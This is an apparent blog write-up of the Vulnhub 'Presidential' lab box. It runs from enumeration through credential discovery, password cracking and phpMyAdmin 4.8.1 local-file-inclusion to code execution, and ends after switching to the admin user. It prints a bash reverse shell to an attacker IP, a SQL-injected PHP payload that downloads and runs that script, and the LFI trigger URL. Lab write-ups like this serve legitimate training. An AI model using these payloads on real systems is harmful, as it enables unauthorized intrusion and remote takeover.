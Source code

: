 ```yaml
---
title: Vulnhub - Presidential
description: My writeup on Presidential box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://www.history.com/.image/ar_16:9%2Cc_fill%2Ccs_srgb%2Cfl_progressive%2Cg_faces:center%2Cq_auto:good%2Cw_768/MTY3MTc2NDg2OTU5MjYxMDM2/presidential-elections-gettyimages-78679210.jpg)

Hi all, this was a really interesting and "hard" box. Took me around 10 hours to pwn it. Let's pwn it!

You can find the machine there > [Presidential](https://www.vulnhub.com/entry/presidential-1,500/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.14
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-14 15:02 EEST
Nmap scan report for votenow.local (192.168.1.14)
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2082/tcp open  infowave
MAC Address: 00:0C:29:A1:D7:E1 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.24 seconds
$ nmap -p 80,2082 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-14 15:04 EEST
Nmap scan report for votenow.local (192.168.1.14)
Host is up (0.00057s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.5.38
|_http-title: Ontario Election Services &raquo; Vote Now!
2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:40:f4:e5:8c:ad:1a:e6:86:de:a5:75:d0:a2:ac:80 (RSA)
|   256 e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99 (ECDSA)
|_  256 66:a8:a1:9f:db:d5:ec:4c:0a:9c:4d:53:15:6c:43:6c (ED25519)
MAC Address: 00:0C:29:A1:D7:E1 (VMware)
```

When we visit the website we can see this in top left corner : `contact@votenow.local` That's probably the domain. Since the anatomy of an email address is this:

```
contact@votenow.local
  ^          ^
 user      domain
```

Let's add it to `/etc/hosts`:

`192.168.1.14    votenow.local`

Let's run `gobuster` on it now.

```
$ gobuster dir -q -u http://$ip/ -w $dir_medium -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/about.html (Status: 200)
/assets (Status: 301)
/config.php (Status: 200)
```

Nothing interesting. `/config.php` is empty. Here i stuck for lot of hours then i tried to brute force extensions but `gobuster` doesnt support extenstion file. Only `wfuzz` can help here:

```
$ wfuzz -c -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-small-extensions.txt --hw 854 --hc 404,403 http://$ip/FUZZFUZ2Z  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.14/FUZZFUZ2Z
Total requests: 19371708

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000075115:   200        0 L      0 W      0 Ch        "config - .php"                                                                                                         
000075427:   200        8 L      14 W     107 Ch      "config - .php.bak" 
```

Perfect `/config.php.bak` has some database creds in:

```
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```

But how we can use them?? Since we have a domain `votenow.local` we can search for subdomains.

```
$ wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.votenow.local" --hw 854 --hc 400 $ip 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.14/
Total requests: 207643

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000009229:   200        68 L     369 W    9500 Ch     "datasafe"
```

Let's add it to `/etc/hosts`:

`192.168.1.14    datasafe.votenow.local`

Now we can see phpmyadmin running there:

![](https://i.ibb.co/wcX07d6/Screenshot-4.png)

We can use creds here `votebox:casoj3FFASPsbyoRP` & we're in! Under `users` table we can see a username and an encrypted password, let's crack it with john (takes some time):

```
$ touch password
$ cat password 
2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Press 'q' or Ctrl-C to abort, almost any other key for status
Stella           (?)
```

Now if we try to login with SSH we cant:

```
$ ssh admin@$ip -p 2082
admin@192.168.1.14: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

We need to find another way to get access.. let's check phpmyadmin version:

![](https://i.imgur.com/7Pn1wDQ.png)

Let's search for possible exploits:

```
$ searchsploit phpmyadmin 4.8.1
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                            | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                            | php/webapps/44928.txt
```

Here we go.. let's check it:

```
$ searchsploit -m php/webapps/44928.txt
  Exploit: phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)
      URL: https://www.exploit-db.com/exploits/44928
     Path: /usr/share/exploitdb/exploits/php/webapps/44928.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/presidential/44928.txt

$ cat 44928.txt 
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k#     
```

Perfect we can spawn a shell! We will make target download our bash file , chmod it and then run it. Let's create it:

```
$ touch shell.sh
$ nano shell.sh 
$ cat shell.sh 
bash -i >& /dev/tcp/192.168.1.16/5555 0>&1
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's send this SQL query:

```sql
select '<?php system("wget 192.168.1.16/shell.sh; chmod +x shell.sh; bash shell.sh");exit;?>'
```

Now we need to find our Session ID:

![](https://i.imgur.com/eWWmchj.png)

Now to execute our payload we need to visit this URL:

`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_$yoursessionid`

We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...
bash-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can switch to admin:

```
bash-4.2$ su - admin
su - admin
Password: Stella

Last login: Sun Jun 28 00:42:34 BST 2020 on pts/0
[admin@votenow ~]$ 
```




